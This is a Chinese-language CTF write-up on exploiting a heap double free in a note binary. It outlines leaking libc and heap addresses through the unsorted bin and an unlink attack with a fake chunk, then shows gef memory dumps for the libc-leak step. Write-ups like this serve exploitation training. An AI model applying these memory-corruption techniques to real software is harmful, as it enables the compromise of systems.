 ### 利用思路
利用 `double free `
#### leak libc
`free` 掉 `0x90` 大小的堆块，会放入` unsorted bin` 中，添加 `fd,bk`信息。我们在 `malloc` 出来，仅修改低字节，因为 `libc` 中偏移不变，所以地址的低字节应该是不变的，`\x78` 是固定的。 泄露 `fd` 地址.. 计算得到 `libc` 基址

#### leak heap
使 `unsorted bin` 中 第一块的 bk 指向下一个 `free` 掉的 `chunk` ，泄露bk,得到 `heap` 地址
#### unlink
 `free` 一个堆块放入 `unsorted bin`，会检查后向合并，我们构造 `fake chunk`，伪造 `fd,bk`。从而达到 `ptr[0] = &ptr[0]-0x18` 的效果
### 利用过程
#### 泄露 libc 地址
首先 `new` 两个 `0x80` 的 `chunk`
```c
gef➤  x/16gx 0x00000000019c3000
0x19c3000:	0x0000000000000000	0x0000000000001821  => table header
0x19c3010:	0x0000000000000100	0x0000000000000002 
0x19c3020:	0x0000000000000001	0x0000000000000080 => chunk 0 flag | size
0x19c3030:	0x00000000019c4830	0x0000000000000001 => chunk 0 ptr | chunk 1 flag
0x19c3040:	0x0000000000000080	0x00000000019c48c0 => chunk 1 size | chunk 1 ptr
0x19c3050:	0x0000000000000000	0x0000000000000000
```
看一下这两个 `chunk` 的信息：
```c
gef➤  x/32gx 0x00000000019c4830-0x10
0x19c4820:	0x0000000000000000	0x0000000000000091 => chunk 0 header
0x19c4830:	0x4141414141414141	0x4141414141414141
......
0x19c48b0:	0x0000000000000000	0x0000000000000091 => chunk 1 header
0x19c48c0:	0x4242424242424242	0x4242424242424242
...... 
0x19c4910:	0x4242424242424242	0x4242424242424242
```
`delete chunk 0` 写入 `fd, bk`
```c
gef➤  x/16gx 0x120d830-0x10
0x120d820:	0x0000000000000000	0x0000000000000091 => chunk 0 header
0x120d830:	0x00007fd22ca79b78	0x00007fd22ca79b78 => fd | bk
0x120d840:	0x4141414141414141	0x4141414141414141
0x120d850:	0x4141414141414141	0x4141414141414141
```
`new note('\x78')` 将刚刚 `free` 掉的` chunk 0` `malloc` 出来
可以看到` fd,bk `并没有修改，我们就可以通过 `list` 得到地址了
```c 
gef➤  x/16gx 0x1f66830-0x10
0x1f66820:	0x0000000000000000	0x0000000000000091
0x1f66830:	0x00007f307c0b5b78	0x00007f307c0b5b78 => fd | bk
0x1f66840:	0x4141414141414141	0x4141414141414141
```
查看一下 `libc` 地址和 `fd`:
```c
gef➤  vmmap libc
Start              End                Offset             Perm Path
0x00007fd22c6b5000 0x00007fd22c875000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
.....
gef➤  x/16gx 0x00007fd22ca79b78
0x7fd22ca79b78 <main_arena+88>:	0x000000000120d940	0x0000000000000000
0x7fd22ca79b88 <main_arena+104>:	0x000000000120d820	0x000000000120d820
```
我们可以计算 `hex(libc基址-fd)` 即 `hex(0x00007fd22ca79b78-0x00007fd22c6b5000)` 得到 `0x3c4b78`，当然这个值就是 `main_arena` 偏移 +`88` 
